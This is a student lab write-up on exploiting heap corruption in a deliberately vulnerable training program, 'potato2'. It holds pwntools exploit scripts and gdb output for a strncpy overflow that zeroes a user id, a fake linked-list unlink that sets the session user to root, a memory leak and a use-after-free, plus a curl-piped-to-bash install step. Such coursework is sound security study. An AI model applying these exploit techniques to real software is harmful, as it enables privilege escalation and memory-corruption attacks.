


Student: Ernst Schwaiger
Date 2024-04-12

# Heap Corruption

The steps below were executed on a Kali 2024.03 system for x64 that runs in a VirtualBox hypervisor.

## Building potato2 for 32 bits

Packages to install upfront to get potato2 to compile for i386/32 bit, python virtual environment,
glibc with debugging symbols, and gdb enhanced features/gef:

```bash
sudo apt install gcc 
sudo apt install gcc-multilib
sudo apt install libc6-dbg-i386-cross
sudo apt install glibc-source
sudo apt install python3-virtualenv
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
```

Checkout the sources of `potato2` and `openssl`, the latter is required since we are going to
build potato2 as 32 bit binary, hence the `openssl` libraries need to be available as 32 bit
as well.

```sh
git clone https://github.com/edgecase1/potato2.git
git clone https://github.com/openssl/openssl.git
cd openssl
./Configure -m32 linux-generic32
make -sj
cd ..
make -sj
cp potato2/userlist .
```

The second make builds `potato2` as 32 bit executable. Since the built `potato2` binaries require to have
the `userlist` file present in the current folder, this file is copied from the `potato2` folder.

```Makefile
# needs to have openssl checked out as sibling folder of potato
# git clone https://github.com/openssl/openssl.git
# and requires installation of gcc multilib
# sudo apt install gcc-multilib for m32

WARN_OPTS=-Wno-deprecated-declarations -Wno-unused-result
SEC_OPTS=-fno-stack-protector -z execstack -no-pie
DEBUG_OPTS=-ggdb3 -O0
INCLUDES=-Iopenssl/include -I/usr/include -Ipotato2/src
DEFINES=-D_FORTIFY_SOURCE=0

CCOPTS = $(WARN_OPTS) $(SEC_OPTS) $(DEBUG_OPTS) $(INCLUDES) $(DEFINES)

CFILES = \
	potato2/src/main.c \
	potato2/src/runr.c \
	potato2/src/sock.c \
	potato2/src/userlist.c \
	potato2/src/func.c \
	potato2/src/login2.c

HFILES = \
	potato2/src/runr.h \
	potato2/src/sock.h \
	potato2/src/user.h \
	potato2/src/userlist.h 

.PHONY: clean all

all: potato

# binary for usual attacks
potato: $(CFILES) $(HFILES)
	gcc -m32 $(CCOPTS) -o potato $(CFILES) -Lopenssl  -lssl -lcrypto 

clean:
	rm -f potato
```

Now, potato2 can be built and run in the `potato` folder:

```bash
make -sj
./potato
./potato console
./potato server
```

On Kali systems, `LD_LIBRARY_PATH` is empty, hence an error message 
`error while loading shared libraries: libcrypto.so.3: cannot open shared object file` appears when
`./potato` is started. To get around that, add the folder where openssl was checked out to:

```bash
export LD_LIBRARY_PATH=<openssl_folder>:$LD_LIBRARY_PATH
```

## Setup of the debugging environment

Start a python virtual environment, install the `pwntools` package.

```bash
virtualenv venv
. ./venv/bin/activate
pip install pwntools
```

## overwrite a user (t_user) structure to gain privileges

It is possible to make the currently logged in user a privileged one overwriting the stack return address. 
By overwriting the global user data structure such that the logged in user obtains a user id of zero, we get the 
credentials. 


```c
int
is_privileged()
{
    t_user* user = session.logged_in_user;
     if(user->id < 1 || user->gid < 1) // is a root user
     {
          return 1;
     }
     else
     {
          fprintf(stderr, "privileged users only!");
          return 0;
     }
}
```

For that purpose, we exploit the fact that the `strncpy()` call in `change_name()` always 
appends the string terminator `0x00` to the target string:

```c
void
change_name()
{
    char input_username[USERNAME_LENGTH];
        
    fprintf(stdout, "What is the name > ");
    //fgets(input_username, sizeof(input_username), stdin);
    fscanf(stdin, "%s", input_username); // TODO security
    input_username[strcspn(input_username, "\n")] = 0x00; // terminator instead of a newline

    strncpy(session.logged_in_user->name, input_username, strlen(input_username)+1);
    fprintf(stdout, "Name changed.\n");
}
```

The `t_user` data structure into which `strncpy()` writes is defined as follows:
```c
struct _user
{
     char name[20];
     char password_hash[32]; // md5
     int id;
     int gid;
     char home[50];
     char shell[50];
} typedef t_user;
```

By providing a long enough input string, strncpy will overwrite `name`, `password_hash`, and `id` and insert
a `0x00` byte at the end. The value of `id` in the current users' `t_user` structure is `10000`, or `0x2710`. 
In a little-endian architecture, the LSB of `id` can be found at the address of `id`, and the MSB at the 
address of `id` + 3:

```gdb
gef➤  x/4bx &session->logged_in_user->id
0x8050464:      0x10    0x27    0x00    0x00
```

The number of bytes to overwrite until we arrive at the LSB of `id` is `0x34`, or `52`; it 
can be calculates as follows:

```gdb
gef➤  p &session->logged_in_user->id
$1 = (int *) 0x8050464
gef➤  p &session->logged_in_user->name
$2 = (char (*)[20]) 0x8050430
gef➤  p 0x8050464 - 0x8050430
$3 = 0x34
gef➤  
```

By providing a string of length `52 + 1`, `strncpy` will overwrite the `0x27` byte of the `id` field with `0x00`,
by providing a string of length `52`, `strncpy` will overwrite the `0x10` byte.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break main
break func.c:191
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter"
p.sendline(payload)

p.interactive()
```

After returning to interactive mode, `whoami` displays the `id`of the current user as zero, i.e. privileged.

```bash
cmd> $ whoami
user(name='peter' id=0 gid=10000 home='/home/peter' shell='/usr/bin/rbash')
```

## find a memory leak to identify a heap bin or chunk (look at the session and whoami; it's enough to show the chunk or memory location in gdb)

The function `str2md5()` in `login2.c` allocates a buffer of 90 bytes which it returns to the calling function. The calling function then has to dispose of
that buffer after usage. 

```c
char *str2md5(const char *str, int length) {
    int n;
    MD5_CTX c;
    unsigned char digest[16];
    char *out = (char*)malloc(90); // md5 plus null terminator for snprintf

    MD5_Init(&c);
    while (length > 0) {
        if (length > 512) {
            MD5_Update(&c, str, 512);
        } else {
            MD5_Update(&c, str, length);
        }
        length -= 512;
        str += 512;
    }
    MD5_Final(digest, &c);

    for (n = 0; n < 16; ++n) {
        snprintf(&(out[n*2]), 16*2+1, "%02x", (unsigned int)digest[n]);
    }

    return out;
}
```

In `change_password()` and in `check_password()`, however, the allocated memory is not given back using `free()`.

```c
void
change_password()
{
    //char* input_password;
    //input_password = getpass("Password: "); fflush(stdout);

    char input_password[PASSWORD_LENGTH];
    fprintf(stdout, "Password: ");
    fgets(input_password, sizeof(input_password), stdin);
    input_password[strcspn(input_password, "\n")] = 0x00; // terminator instead of a newline

    strncpy(session.logged_in_user->password_hash, 
            str2md5(input_password, strlen(input_password)), 
	    32);
    fprintf(stdout, "Password changed.\n");
}
```

```c
int
check_password(t_user* user, char* password)
{
    return (0 == strncmp(
                        user->password_hash, 
		        str2md5(password, strlen(password)), 
			32)); // md5 length
}
```

A memory leak can be, e.g. caused by an attempt to login, no matter whether it was successful or not. Setting
a breakpoint to `login2.c:32` will halt the process immediately before the function returns to the caller.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break main
break login2.c:32
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# Login as peter with the correct password, already causes a mem leak
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

p.interactive()

```

Inspecting `out` reveals that the digest of the input is returned as string:

```gdb
gef➤  p out
$2 = 0x8123490 "827ccb0eea8a706c4c34a16891f84e7b"
gef➤  x/33bx out
0x8123490:      0x38    0x32    0x37    0x63    0x63    0x62    0x30    0x65
0x8123498:      0x65    0x61    0x38    0x61    0x37    0x30    0x36    0x63
0x81234a0:      0x34    0x63    0x33    0x34    0x61    0x31    0x36    0x38
0x81234a8:      0x39    0x31    0x66    0x38    0x34    0x65    0x37    0x62
0x81234b0:      0x00
```

By stepping a few times, we exit the function and see that the caller did not free the memory, nor store
the address to it for freeing at a later point in time, hence this results in a memory leak which stores
a digest of the password the user entered when logging in.


## gain a shell with root privileges (look at the allocator with ltrace while creating and deleting users)

By using the write-what-where pattern in the linked list of all users, it is possible to change the value
of `session->logged_in_user` such that it points to the `root` user. For that to work, however, the
potato code has to be changed:

```c
void 
delete_user()
{
    int id;

    //walk_list(print_list_element);
    fprintf(stdout, "Which one? > ");
    scanf("%d", &id);
    if(!delete_user_by_id(id)) {
         fprintf(stderr, "not found.\n");
    }
}
```

The `walk_list(print_list_element);` call must be commented out since would cause a crash after the
heap buffer overflow manipulated the user list.

The left hand side diagram shows the memory layout of the various `t_user` chunks on the heap and the 
`t_user_list` elements which implement a linearly linked list.

The buffer overflow happens again in `change_name()` and overwrites the "peter" `t_user` chunk in such a
way that it also overwrites its following `t_user_list` chunk. At the beginning of the "peter" chunk,
we put a "fake" `t_user_list` entry, where `t_user_list::next` refers to the "root" chunk. This is the
value which shall be written. The `t_user_list::user` element refers to a chunk of memory which can be
freed (a chunk of data which constitutes a memory leak).

The `t_user_list::next` field of the `t_user_list` following "peter" is overwritten to refer to the
`session` global variable. In the subsequent step, this will force the program to interpret `session`
as an object of type `t_user_list`. `t_user_list::next` is exactly at the same position as 
`session->logged_in_user`. This is the chunk of data that shall be overwritten.




After the heap is prepared, one element in the user list is deleted, which at some point invokes the 
statement `prev_element->next = element->next;` in delete_user_by_id()`. In this scenario, 
`prev_element->next` refers to the `session` global var (in reality: `session->logged_in_user`),
`element` refers to the "fake" `t_user_list` entry at the beginning of "peter", and
`element->next` refers to the `root` user chunk. Which in total amounts to `session->logged_in_user = root`.



After the deletion completed, `whoami` will show "root" as the logged in user, which - in theory - allows
to create a root shell.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break userlist.c:84
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter" + b"\x0a"
p.sendline(payload)

# ptr to leaked memory we got when logging in peter
delete_mem_chunk = 0x8123490
# ptr to root user: the value which will be written
root_user_addr = 0x8124090
# addresss of the session global var
session_addr = 0x811df58

# this chunk is a copy of the peter chunk (starting at byte 8) 
# and a few following bytes, where all 0x00 bytes were replaced by 0xAA
some_chunk = (
"\x41\x41\x03\xAA\xAA\xAA\xb8\xcc"
"\xff\xff\x18\xAA\xAA\xAA\x01\xAA"
"\xAA\xAA\x6e\xAA\xAA\xAA\xf4\xcf"
"\x11\x08\xAA\xce\xff\xff\x02\xAA"
"\xAA\xAA\xb8\xcd\xff\xff\x6d\xc6"
"\x04\x08\xb1\xcc\xff\xff\xf4\xcf"
"\x11\x08\xb8\xcd\xff\xff\x16\xb6"
"\x04\x08\x90\x63\x68\x61\x6e\x67"
"\x65\x6e\x61\x6d\x65\xAA\xAA\xAA"
"\xAA\xAA\xe7\xab\x06\x08\xf4\xcf"
"\x11\x08\xa8\xb7\x11\x08\xf4\xcf"
"\x11\x08\xc0\x2e\x12\x08\xAA\xAA"
"\xAA\xAA\xAA\xAA\xAA\xAA\x30\x40"
"\x07\x08\x80\x30\x12\x08\x37\x30"
"\x12\x08\xAA\xb7\x11\x08\x74\xad"
"\x06\x08\x08\xAA\xAA\xAA\xf4\xcf"
"\x11\x08\xec\xff\xff\xff\xe0\xd4"
"\x11\x08\x90\x28\x12\x08\xAA\xAA"
"\xAA\xAA\xc4\xbe\x57\xba\x59\x85"
"\x06\x08\xc0\x2e\x12\x08\xAA\xAA"
"\xAA\xAA\x1d\xa6\x06\x08\x30\x40"
)

payload = p32(root_user_addr) + p32(delete_mem_chunk) + bytes(some_chunk, "latin1") + p32(session_addr)

# overwrite Peters user buffer and its user_entry_t
p.sendline(b"changename")
p.sendline(payload)

#
# delete user 4
#
p.sendline(b"delete")
p.sendline(b"4")

#
# We should be "root" now
#
p.interactive()
```

## demonstrate a use after free or double free condition in the program

Use the python script `./pwn_potato2_priv_user.py` to gain user privileges for user "peter".
In order to get a "use after free condition", the user "peter" can be removed from the
user list while being logged in at the same time. After the removal the memory chunk which
contains peters data is still referenced from the `session->logged_in_user` global variable.
Invoking `whoami()` after the user got deleted, causes a "use after free" condition.

```python
#!/usr/bin/env python3

from pwn import *

import sys

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
# set a breakpoint where user entries are removed
# and a second one that outputs user data
gdb.attach(p, '''
break main
break userlist.c:88
break func.c:216
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter" + b"\x0a"
p.sendline(payload)

#
# delete the current user "peter"
#
p.sendline(b"delete")
p.sendline(b"2")

#
# Access peter's data even if it was freed before
#
p.sendline(b"whoami")

p.interactive()
```

After we hit the first breakpoint before the call to `free(element->user);`, we verify the memory chunk to be freed, we observe an address on the heap:

```gdb
gef➤  p element->user
$1 = (t_user *) 0x8124150
```

after pressing `c` to continue, the next breakpoint in `whoami()` is hit. By doing
```gdb
gef➤  p session.logged_in_user 
$2 = (t_user *) 0x8124150
```

we see that already freed memory is read here, i.e. this is a use-after-free scenario.


## Experiments which eventually were not part of any solution

### Compile glibc for 32 or 64 bit with debug information


Download a glibc version, e.g. 2.41 `https://ftp.gnu.org/gnu/glibc/glibc-2.41.tar.gz`, configure it
for 32 bit compilation with debugging info, then compile and install it, e.g. to `$HOME/projects/CyberSecurity/HeapCorruption/glibc`.
This document served as a basis:
https://unix.stackexchange.com/questions/565593/compiling-gcc-against-a-custom-built-glibc

```bash
cd glibc-2.41
mkdir build
cd build
../configure --prefix=$HOME/projects/CyberSecurity/HeapCorruption/glibc \
     --host=i686-linux-gnu \
     --build=i686-linux-gnu \
     CC="gcc -m32" CXX="g++ -m32" \
     CFLAGS="-O2 -g -march=i686" \
     CXXFLAGS="-O2 -g -march=i686"
make -sj
make install
```

configuration for X86-64 (64 bit):

```bash
../configure --prefix=$HOME/projects/CyberSecurity/HeapCorruption/glibc64 \
     CFLAGS="-O2 -g" \
     CXXFLAGS="-O2 -g"
```
The target binary can now be linked against the built library by adapting the original makefile:

```Makefile
CCOPTS=-ggdb3 -O0 -m32
GLIBC_FOLDER=/home/kali/projects/CyberSecurity/HeapCorruption/glibc
GLIBC_LIB=/home/kali/projects/CyberSecurity/HeapCorruption/glibc-2.41/build
GLIBC_INC=/home/kali/projects/CyberSecurity/HeapCorruption/glibc/include 

all: demo

demo: demo.c
	gcc $(CCOPTS) -I$(GLIBC_INC) -o demo demo.c -L$(GLIBC_LIB) -Wl,-rpath,$(GLIBC_LIB) -lc

clean:
	rm -f demo
```

Ensure the binary actually will load the built shared object file in RUNPATH:

```bash
readelf -d demo
Dynamic section at offset 0x2ee4 contains 27 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000001d (RUNPATH)                    Library runpath: [/home/kali/projects/CyberSecurity/HeapCorruption/glibc-2.41/build]
 0x0000000c (INIT)                       0x1000
 0x0000000d (FINI)                       0x1564
 0x00000019 (INIT_ARRAY)                 0x3edc
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x3ee0
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x1ec
 0x00000005 (STRTAB)                     0x2ec
 0x00000006 (SYMTAB)                     0x20c
 0x0000000a (STRSZ)                      279 (bytes)
 0x0000000b (SYMENT)                     16 (bytes)
 0x00000015 (DEBUG)                      0x0
 0x00000003 (PLTGOT)                     0x3ff4
 0x00000002 (PLTRELSZ)                   56 (bytes)
 0x00000014 (PLTREL)                     REL
 0x00000017 (JMPREL)                     0x4a8
 0x00000011 (REL)                        0x460
 0x00000012 (RELSZ)                      72 (bytes)
 0x00000013 (RELENT)                     8 (bytes)
 0x6ffffffb (FLAGS_1)                    Flags: PIE
 0x6ffffffe (VERNEED)                    0x420
 0x6fffffff (VERNEEDNUM)                 1
 0x6ffffff0 (VERSYM)                     0x404
 0x6ffffffa (RELCOUNT)                   4
 0x00000000 (NULL)                       0x0
```


